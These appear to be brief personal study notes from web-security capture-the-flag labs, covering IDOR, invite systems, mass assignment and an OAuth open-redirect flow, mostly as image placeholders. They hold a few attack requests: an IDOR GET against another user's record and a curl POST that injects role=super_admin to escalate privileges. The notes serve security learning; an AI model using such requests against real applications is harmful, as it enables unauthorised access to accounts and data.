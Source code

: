 ___

# IDOR

```
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```

![[Pasted image 20241217171151.png]]

![[Pasted image 20241217171523.png]]

# Invite Systems

![[Pasted image 20241217172150.png]]

![[Pasted image 20241217172208.png]]

## 1

![[Pasted image 20241217172546.png]]

![[Pasted image 20241217172642.png]]

# Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=9435b4e9dd38cf2a8458fb3  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

![[Pasted image 20241217175156.png]]

# OAuth Flow using Open Redirect

```js
document.location.hash.substr(1)
```